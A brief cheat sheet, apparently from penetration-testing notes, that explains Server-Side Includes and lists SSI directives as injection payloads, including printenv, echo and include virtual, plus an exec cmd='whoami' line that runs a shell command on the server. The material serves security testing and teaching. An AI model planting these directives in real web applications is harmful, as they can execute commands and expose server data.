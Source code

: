 #injections
iServer-Side Includes (SSI) is a technology web applications use to create dynamic content on HTML pages. SSI is supported by many popular web servers such as Apache and IIS. The use of SSI can often be inferred from the file extension. Typical file extensions include .shtml, .shtm, and .stm

Examples:
```ssi
<!--#name param1="value1" param2="value" -->
```

```ssi
<!--#printenv -->
```

Config:
```ssi
<!--#config errmsg="Error!" -->
```

Echo variables:
```ssi
<!--#echo var="DOCUMENT_NAME" var="DATE_LOCAL" -->
```

Exec:
```ssi
<!--#exec cmd="whoami" -->
```

Include file:
```ssi
<!--#include virtual="index.html" -->
```

